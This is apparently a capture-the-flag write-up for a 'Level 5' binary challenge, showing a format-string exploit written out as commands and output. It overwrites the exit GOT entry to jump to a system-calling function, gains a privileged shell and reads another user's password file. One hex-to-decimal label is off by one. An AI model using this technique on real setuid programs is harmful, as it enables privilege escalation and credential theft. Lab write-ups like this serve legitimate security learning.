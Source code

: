 # Level 5

- `objdump -R ./level5`
<pre>
./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
<strong>08049838</strong> R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
- (hex)0x08049838 = (little indian)\\x38\\x98\\x04\\x08
- `python -c "print('AAAA' + '\x38\x98\x04\x08' + '%x ' * 5)" | ./level5`
AAAA8200 b7fd1ac0 b7ff37d0 <strong>41414141 8049838</strong>
</pre>
- `gdb ./level5`
<pre>
(gdb) disass o
Dump of assembler code for function o:
   <strong>0x080484a4</strong> <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
</pre>
- (hex)0x080484a5 = (dec)134513828
- `(python -c "print('AAAA' + '\x38\x98\x04\x08' + '%134513820d' + '%5\$n')"; cat) | ./level5 | tr -d ' '`
```
id
uid=2045(level5)gid=2045(level5)euid=2064(level6)egid=100(users)groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
AAAA8d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
